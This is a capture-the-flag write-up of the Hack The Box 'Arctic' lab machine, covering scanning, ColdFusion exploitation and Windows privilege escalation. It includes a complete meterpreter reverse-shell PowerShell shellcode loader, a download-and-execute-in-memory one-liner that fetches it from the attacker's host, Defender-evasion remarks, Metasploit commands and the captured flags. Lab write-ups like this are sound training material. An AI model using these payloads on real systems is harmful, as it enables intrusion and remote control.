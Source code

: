 ```yaml
---
title: HTB Machine Arctic May 2025
published: 2025-05-15
description: Writeup of HTB Arctic Machine.
tags: [B2R, HTB, Easy, Retired, Windows, Metasploit, Adobe ColdFusion]
image: "images/cover.png"
category: HTB Machine Writeups
draft: false
---
```


# Scanning 

## Nmap 

- Ports Open

```python
Discovered open port 135/tcp on 10.10.10.11 (Remote Procedure Call (RPC))
Discovered open port 8500/tcp on 10.10.10.11 # Don't know what it is
Discovered open port 49154/tcp on 10.10.10.11 (Remote Procedure Call (RPC))
```

- Full Scan

```bash
# Nmap 7.94SVN scan initiated Wed May 14 15:27:15 2025 as: nmap -sC -sV -vvv -T5 -oA nmap/initials -Pn 10.10.10.11
Nmap scan report for 10.10.10.11 (10.10.10.11)
Host is up, received user-set (0.19s latency).
Scanned at 2025-05-14 15:27:16 IST for 170s
Not shown: 997 filtered tcp ports (no-response)
PORT      STATE SERVICE REASON  VERSION
135/tcp   open  msrpc   syn-ack Microsoft Windows RPC
8500/tcp  open  fmtp?   syn-ack
49154/tcp open  msrpc   syn-ack Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed May 14 15:30:06 2025 -- 1 IP address (1 host up) scanned in 171.15 seconds
```

# Enumeration

- Web Server (Adobe ColdFusion web server)

![Pasted image 20250514155330.png](images/Pasted_image_20250514155330.png)
![Pasted image 20250514155550.png](images/Pasted_image_20250514155550.png)
- Adobe ColdFusion 8 Login Panel 

![Pasted image 20250514155934.png](images/Pasted_image_20250514155934.png)
# Exploitation

- Trying 1st Payload using Metasploit

![Pasted image 20250514161334.png](images/Pasted_image_20250514161334.png)
![Pasted image 20250514161446.png](images/Pasted_image_20250514161446.png)
![Pasted image 20250514161504.png](images/Pasted_image_20250514161504.png)
- But Failed!!!!!!!!!!!

- Started Debugging Using Burp with Proxy and found one problem: Metasploit only waits for 5 sec and then it gives error and shuts the listener, but this exploit takes 20 to 30 sec for getting shell. So we have to forward the POST request to proxy and take it into repeater, then shut the Metasploit listener off and start a netcat listener with the same port and send the request through repeater. Then we got the shell.  

![Pasted image 20250514163820.png](images/Pasted_image_20250514163820.png)
- Now the problem is that I have a normal user/service shell which is kind of primitive in nature and we need a meterpreter shell. So for that, we use msfconsole to create another PowerShell payload which will be invoked from the shell we got.

- After Creating that, we transport it to the victim machine using a Python HTTP server and invoke it directly in memory without leaving a file on disk. 

- This is not that easy because Defender keeps removing it, so this is just the success part, although you can see the number of attempts. 😗

- Creating Shell.ps1

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.16.10 LPORT=1337 -f psh -o shell.ps1
```

- Payload: shell.ps1

```powershell
$xVgZtpUmbJgsKj = @"
[DllImport("kernel32.dll")]
public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);
[DllImport("kernel32.dll")]
public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
"@

$JoDMBHBRFCPbBq = Add-Type -memberDefinition $xVgZtpUmbJgsKj -Name "Win32" -namespace Win32Functions -passthru

[Byte[]] $oYFigiQwf = 0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xcc,0x0,0x0,0x0,0x41,0x51,0x41,0x50,0x52,0x48,0x31,0xd2,0x51,0x56,0x65,0x48,0x8b,0x52,0x60,0x48,0x8b,0x52,0x18,0x48,0x8b,0x52,0x20,0x4d,0x31,0xc9,0x48,0xf,0xb7,0x4a,0x4a,0x48,0x8b,0x72,0x50,0x48,0x31,0xc0,0xac,0x3c,0x61,0x7c,0x2,0x2c,0x20,0x41,0xc1,0xc9,0xd,0x41,0x1,0xc1,0xe2,0xed,0x52,0x41,0x51,0x48,0x8b,0x52,0x20,0x8b,0x42,0x3c,0x48,0x1,0xd0,0x66,0x81,0x78,0x18,0xb,0x2,0xf,0x85,0x72,0x0,0x0,0x0,0x8b,0x80,0x88,0x0,0x0,0x0,0x48,0x85,0xc0,0x74,0x67,0x48,0x1,0xd0,0x50,0x8b,0x48,0x18,0x44,0x8b,0x40,0x20,0x49,0x1,0xd0,0xe3,0x56,0x4d,0x31,0xc9,0x48,0xff,0xc9,0x41,0x8b,0x34,0x88,0x48,0x1,0xd6,0x48,0x31,0xc0,0xac,0x41,0xc1,0xc9,0xd,0x41,0x1,0xc1,0x38,0xe0,0x75,0xf1,0x4c,0x3,0x4c,0x24,0x8,0x45,0x39,0xd1,0x75,0xd8,0x58,0x44,0x8b,0x40,0x24,0x49,0x1,0xd0,0x66,0x41,0x8b,0xc,0x48,0x44,0x8b,0x40,0x1c,0x49,0x1,0xd0,0x41,0x8b,0x4,0x88,0x48,0x1,0xd0,0x41,0x58,0x41,0x58,0x5e,0x59,0x5a,0x41,0x58,0x41,0x59,0x41,0x5a,0x48,0x83,0xec,0x20,0x41,0x52,0xff,0xe0,0x58,0x41,0x59,0x5a,0x48,0x8b,0x12,0xe9,0x4b,0xff,0xff,0xff,0x5d,0x49,0xbe,0x77,0x73,0x32,0x5f,0x33,0x32,0x0,0x0,0x41,0x56,0x49,0x89,0xe6,0x48,0x81,0xec,0xa0,0x1,0x0,0x0,0x49,0x89,0xe5,0x49,0xbc,0x2,0x0,0x5,0x39,0xa,0xa,0x10,0xa,0x41,0x54,0x49,0x89,0xe4,0x4c,0x89,0xf1,0x41,0xba,0x4c,0x77,0x26,0x7,0xff,0xd5,0x4c,0x89,0xea,0x68,0x1,0x1,0x0,0x0,0x59,0x41,0xba,0x29,0x80,0x6b,0x0,0xff,0xd5,0x6a,0xa,0x41,0x5e,0x50,0x50,0x4d,0x31,0xc9,0x4d,0x31,0xc0,0x48,0xff,0xc0,0x48,0x89,0xc2,0x48,0xff,0xc0,0x48,0x89,0xc1,0x41,0xba,0xea,0xf,0xdf,0xe0,0xff,0xd5,0x48,0x89,0xc7,0x6a,0x10,0x41,0x58,0x4c,0x89,0xe2,0x48,0x89,0xf9,0x41,0xba,0x99,0xa5,0x74,0x61,0xff,0xd5,0x85,0xc0,0x74,0xa,0x49,0xff,0xce,0x75,0xe5,0xe8,0x93,0x0,0x0,0x0,0x48,0x83,0xec,0x10,0x48,0x89,0xe2,0x4d,0x31,0xc9,0x6a,0x4,0x41,0x58,0x48,0x89,0xf9,0x41,0xba,0x2,0xd9,0xc8,0x5f,0xff,0xd5,0x83,0xf8,0x0,0x7e,0x55,0x48,0x83,0xc4,0x20,0x5e,0x89,0xf6,0x6a,0x40,0x41,0x59,0x68,0x0,0x10,0x0,0x0,0x41,0x58,0x48,0x89,0xf2,0x48,0x31,0xc9,0x41,0xba,0x58,0xa4,0x53,0xe5,0xff,0xd5,0x48,0x89,0xc3,0x49,0x89,0xc7,0x4d,0x31,0xc9,0x49,0x89,0xf0,0x48,0x89,0xda,0x48,0x89,0xf9,0x41,0xba,0x2,0xd9,0xc8,0x5f,0xff,0xd5,0x83,0xf8,0x0,0x7d,0x28,0x58,0x41,0x57,0x59,0x68,0x0,0x40,0x0,0x0,0x41,0x58,0x6a,0x0,0x5a,0x41,0xba,0xb,0x2f,0xf,0x30,0xff,0xd5,0x57,0x59,0x41,0xba,0x75,0x6e,0x4d,0x61,0xff,0xd5,0x49,0xff,0xce,0xe9,0x3c,0xff,0xff,0xff,0x48,0x1,0xc3,0x48,0x29,0xc6,0x48,0x85,0xf6,0x75,0xb4,0x41,0xff,0xe7,0x58,0x6a,0x0,0x59,0x49,0xc7,0xc2,0xf0,0xb5,0xa2,0x56,0xff,0xd5


$XQXihJenTp = $JoDMBHBRFCPbBq::VirtualAlloc(0,[Math]::Max($oYFigiQwf.Length,0x1000),0x3000,0x40)

[System.Runtime.InteropServices.Marshal]::Copy($oYFigiQwf,0,$XQXihJenTp,$oYFigiQwf.Length)

$JoDMBHBRFCPbBq::CreateThread(0,0,$XQXihJenTp,0,0,0)
```

- Transporting Shell.ps1

```powershell
powershell -Command 
"$c=new-object net.webclient;
iex $c.downloadstring('http://10.10.16.10:8000/shell.ps1')"
```

- Metasploit Payload and Instance

```
use multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lhost 10.10.16.10
set lport 1337
run
```

![Pasted image 20250515100848.png](images/Pasted_image_20250515100848.png)
![Pasted image 20250515101211.png](images/Pasted_image_20250515101211.png)
- And we got our first flag!!

```lua
27c8ead73af56159c49fec2e895bda01
```

# Post Exploitation

- Now comes the post exploitation part, so for that we used Metasploit's default suggester which gives potential modules.

![Pasted image 20250515101511.png](images/Pasted_image_20250515101511.png)
```
use post/multi/recon/local_exploit_suggester
set SESSION 1
run
```

![Pasted image 20250515102031.png](images/Pasted_image_20250515102031.png)
- These are x86 version meterpreter exploits but we want x64 version, so we have to migrate to an x64 process to do this.
- And for this, we have used the conhost.exe process.

![Pasted image 20250515102505.png](images/Pasted_image_20250515102505.png)
- Now after doing the same exploit suggester, we found this to be vulnerable. So we used it and got the system shell. 👍

```
use exploit/windows/local/ms10_092_schelevator
set SESSION 1
set lhost 10.10.16.10
```

![Pasted image 20250515103152.png](images/Pasted_image_20250515103152.png)
![Pasted image 20250515103249.png](images/Pasted_image_20250515103249.png)
- And finally got the root shell.

![Pasted image 20250515103722.png](images/Pasted_image_20250515103722.png)
```lua
960b5b48915c3d781eb275a5f8965e6f
```
